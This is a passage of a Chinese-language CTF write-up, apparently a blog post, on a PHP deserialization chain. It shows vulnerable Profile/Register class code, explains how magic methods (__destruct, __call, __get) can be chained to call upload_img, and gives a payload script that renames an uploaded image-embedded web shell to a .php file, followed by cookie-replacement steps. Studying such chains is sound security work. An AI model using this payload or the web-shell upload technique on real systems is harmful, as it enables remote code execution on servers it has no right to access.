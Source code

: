 ```php
        if($this->ext=="png"){
            return 1;
        }else{
            return 0;
        }
    }

    public function __get($name)
    {
        return $this->except[$name];
    }

    public function __call($name, $arguments)
    {
        if($this->{$name}){
            $this->{$this->{$name}}($arguments);
        }
    }

}

```

register有析构函数，未注册的情况会调用`$this->checker->index();`
如果checker是一个`Profile`类，调用index()触发_call()，call调用`this->index`属性
继而调用`_get()`方法，返回给`_call`的结果为`this->except['index']`
如果提前指定`except=["index"=>"upload_image"]`，那么在_call方法中就可以调用`upload_image`方法了
提前上传好一张图片马，通过本次调用`upload_image`将上传好的图片马重命名为.php结尾的shell文件

payload
```php
<?php
namespace app\web\controller;
class Profile
{
    public $checker=0;
    public $filename_tmp="../public/upload/c55e0cb61f7eb238df09ae30a206e5ee/f121d135f39f03e48da5fe5e8ced5b0a.png";
    public $filename="../public/upload/c55e0cb61f7eb238df09ae30a206e5ee/f121d135f39f03e48da5fe5e8ced5b0a.php";
    public $ext=1;
    public $except=array('index'=>'upload_img');

}
class Register
{
    public $checker;
    public $registed=0;
}

$a=new Register();
$a->checker=new Profile();
echo base64_encode(serialize($a));

```

注册新用户，上传图片马，退出登录，payload替换文件名，替换cookie，
![在这里插入图片描述](https://img-blog.csdnimg.cn/cd33fe1f0a51480f924df20ef2c497c1.png)


